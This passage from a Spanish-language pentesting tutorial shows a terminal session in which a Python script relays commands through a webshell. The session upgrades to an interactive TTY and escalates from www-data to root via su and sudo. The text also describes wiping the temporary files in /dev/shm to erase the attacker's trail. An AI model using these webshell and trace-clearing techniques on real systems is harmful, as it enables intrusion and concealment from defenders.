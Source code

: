Ya directamente se gestiona desde el script la sesión, pudiendo así ver los outputs de los comandos que especifiquemos desde `input`. 

El procedimiento ahora para obtener una TTY y proseguir naturalmente sería el mismo que os mostré anteriormente:

```go
┌─[k4lelv@parrot]─[~/Desktop/example]
└──╼ $python3 ttyOverHTTP.py 
> whoami                  
www-data
> script /dev/null -c bash
Script started, file is /dev/null
www-data@parrot:/var/www/html$
> su k4lelv
su k4lelv
Password:
> ************* # Aquí va vuestra contraseña

░▒▓    /var/w/html  ✔ ▓▒░                                                  
> bash
bash
┌──[k4lelv@parrot]─[/var/www/html]
└──╼ $
> whoami
whoami
k4lelv
┌──[k4lelv@parrot]─[/var/www/html]
└──╼ $
> sudo su
sudo su
[sudo] password for k4lelv:
> *********** # Aquí va vuestra contraseña

░▒▓    /var/w/html  ✔   ▓▒░                                                
bash
bash
┌──[root@parrot]─[/var/www/html]
└──╼ #
> whoami
whoami
root
┌──[root@parrot]─[/var/www/html]
└──╼ #
> 
```

Como podréis comprobar, tenemos una TTY completamente interactiva, pudiendo hacer todo lo que haríamos desde consola pero gestionado todo a través de una webshell. Y cómo no... no nos hemos entablado una Reverse Shell, buena esa.

Si presionáis la tecla `Ctrl+C`, se eliminarán todos los ficheros temporales del sistema víctima creados para gestionar la sesión, limpiando así el rastro que como atacantes estamos dejando bajo la ruta `/dev/shm/`.





